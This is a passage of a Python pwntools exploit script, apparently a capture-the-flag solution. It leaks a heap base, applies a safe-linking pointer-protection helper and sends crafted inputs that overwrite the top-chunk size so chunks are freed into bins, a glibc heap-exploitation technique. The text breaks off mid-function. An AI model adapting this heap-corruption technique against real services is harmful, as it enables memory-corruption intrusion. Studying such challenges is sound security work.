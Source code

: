 ```python
        p = gdb.debug([], exe=exe.path, gdbscript=debug_script, env=[('SHELL', '/bin/bash'), ('A', 'B'), ('C', 'D')])
    else:
        #p = remote("localhost", 31169)
        p = process(["./run"] if not args.STRACE else ["strace", "-follow-forks", "-o", "strace.out", "./run"])

    return p

def main():
    p = conn()

    # tick 197 certified

    # get pointer protection key
    heap_base = u64(p.recv(8)) << 12
    heap_size = 0x21000
    def protect(addr, ptr):
        return ptr ^ (addr >> 12)

    #libc_align_base = (key << 12) & ~0xfffff
    #libc_aslr_guess = libc_align_base + 0xcc6b3200000
    #libc_aslr_guess = int(input("What's libc base?"), 0)
    #fastbin_addr = libc_aslr_guess+0x203ad0
    #progname_addr = libc_aslr_guess + 0x204370

    print(hex(heap_base))

    top = heap_base + 0x2b0

    def free(size):
        assert(size & 0xF == 0)
        nonlocal top, heap_base, heap_size
        p.send(b"b8")
        p.send(b"a" * 0xb0)
        p.send(b"bbbbbbbb")

        top += 0xc0

        # Page-align top
        p.send(p64((0x1000 - (top & 0xFFF) | 1)))
        p.send(b"\n")

        while (top & 0xFFF < 0xE00):
            p.send(b"f0\n")
            top += 0x100

        while (top & 0xFFF < 0xF00 - size):
            p.send(b"30\n")
            top += 0x40

        # Leave just enough space for a chunk of size 'size'
        alloc_size = 0x1000 - (top & 0xFFF) - size - 0x28
        p.send(("%02X" % alloc_size).encode('utf-8'))
        p.send(b"\n")
        top += alloc_size

        # Now allocate a chunk that's too big
        p.send(b"f0\n")
        top = heap_base + heap_size + 0x100
        heap_size += 0x22000
        print(hex(top), hex(heap_size))

```